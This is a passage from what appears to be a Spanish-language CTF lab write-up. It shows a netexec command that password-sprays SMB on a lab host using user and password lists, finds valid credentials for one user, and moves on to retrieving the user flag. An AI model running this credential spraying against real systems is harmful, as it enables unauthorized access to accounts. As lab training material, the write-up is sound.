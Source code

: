 <figure><img src="../../../.gitbook/assets/2581_vmware_Xi4rLflMYQ.png" alt="" width="469"><figcaption></figcaption></figure>

### SMB Password Spray Attack (Netexec)

Procederemos a realizar un **Password Spray Attack** para validar si de la lista de usuarios y contraseñas son válidas o no. En este caso, no realizaremos fuerza bruta, por lo que irá probando de manera paralela el usuario y contraseña.

Verificamos que encontramos unas nuevas credenciales del usuario "Sierra.Frye".

{% code overflow="wrap" %}
```bash
nxc smb 10.10.11.129 -u phishing_users.txt -p passwords.txt --no-bruteforce --continue-on-success
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/2582_vmware_46lQIKimpq.png" alt=""><figcaption></figcaption></figure>

Procederemos a realizar una enumeración a través de SMB sobre la carpeta del usuario, y verificamos que hemos encontrado la flag **user.txt**.
